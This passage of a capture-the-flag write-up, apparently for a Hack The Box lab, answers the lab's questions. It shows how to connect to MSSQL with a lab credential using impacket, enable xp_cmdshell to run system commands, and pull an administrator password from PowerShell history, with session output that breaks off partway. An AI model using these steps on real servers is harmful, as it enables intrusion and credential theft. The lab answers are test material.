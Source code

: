 According to [Microsoft](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15), xp_cmdshell Spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text.

`xp_cmdshell`

## What script can be used in order to search possible paths to escalate privileges on Windows hosts?

Winpeas is a script which can automate a big part of the enumeration process in the target system. You can find more information for enumerating Windows system
for Privilege Escalation paths in the HTB academy module [Windows Privilege Escalation](https://academy.hackthebox.eu/course/preview/windows-privilege-escalation). You can download it at: [carlospolop/PEASS-ng/winPEAS/](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

`winpeas`

## What file contains the administrator's password?

After gaining a shell on the target, i run winpeas and came across powershell history as a file of interest.

The text file `“ConsoleHost_history.txt”` located at: `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` Holds a history of recent Windows PowerShell commands executed. Unless changed by a user with the `“Set-PSReadlineOption –HistorySavePath”` option.

![image](https://user-images.githubusercontent.com/58165365/154124751-97a5eb42-855f-4860-9c12-a435b84d1660.png)

Cating its contents, reveals the Administrators password

`ConsoleHost_history.txt`

## Submit user flag

We can use `mssqclient.py` to do connect to the database and gain shell access using `xp_cmdshell`.

```bash
# Cheat-Sheet
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@tun0 -windows-auth
SELECT IS_SRVROLEMEMBER ('sysadmin')
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

```mysql
➜  mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.92.164 -windows-auth
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL> xp_cmdshell
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')

```